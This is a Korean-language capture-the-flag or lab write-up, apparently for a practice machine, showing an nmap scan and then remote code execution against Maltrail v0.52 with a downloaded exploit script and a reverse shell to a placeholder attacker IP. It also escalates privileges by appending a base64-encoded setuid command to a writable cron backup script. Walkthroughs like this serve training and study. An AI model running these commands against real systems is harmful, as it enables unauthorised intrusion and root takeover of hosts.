







## 정보 수집
nmap을 통해 포트 스캔을 수행함.
```
└─$ nmap -p$ports -sC -sV -Pn 192.168.245.32
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-21 08:08 EDT
Nmap scan report for 192.168.245.32
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8338/tcp open  http    Python http.server 3.5 - 3.10
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Maltrail
|_http-server-header: Maltrail/0.52
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.41 seconds
```

브라우저를 통해 8338포트를 접근하면 Maltrail v0.52가 확인됨.


구글에 Maltrail v0.52 RCE 검색 시 github가 보임. 


## 초기 침투
다운로드 받은 exploit.sh에 실행권한을 부여.
```
chmod +x exploit.sh
```
아래 코드를 실행하면 netcat에 리버스 쉘이 확인됨.
```
└─$ ./exploit.sh http://192.168.245.32:8338/ ATTACKER_IP 8338
[*] Target       : http://192.168.245.32:8338/login
[*] LHOST        : ATTACKER_IP
[*] LPORT        : 8338
[*] Start your listener:  nc -lvnp 8338
```


## 권한 상승
완전한 쉘로 업그레이드.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

linpeas.sh를 실행하여 /var/backups/etc_Backup.sh에 쓰기권한이 있다는 것을 확인.


etc_Backup.sh 확인 시 /etc 디렉토리를 /home/snort/etc_backup.tar에 백업하는 것을 확인함.
```
snort@ochima:~$ cat /var/backups/etc_Backup.sh
cat /var/backups/etc_Backup.sh
#! /bin/bash 
tar -cf /home/snort/etc_backup.tar /etc
```

홈 디렉터리에서는 etc_backup.tar 파일 수정 시간이 달라지고 있었음.


/bin/bash 에 setuid 부여하는 명령어를 base64로 입력한뒤 etc_Backup.sh 파일에 삽입
```
echo -n "chmod u+s /bin/bash" | base64
echo "echo -n 'Y2htb2QgdStzIC9iaW4vYmFzaA=='|base64 -d|bash" >> /var/backups/etc_Backup.sh
```
1분 후 /bin/bash에 setuid가 부여되며 -p옵션으로 루트 권한을 획득함.


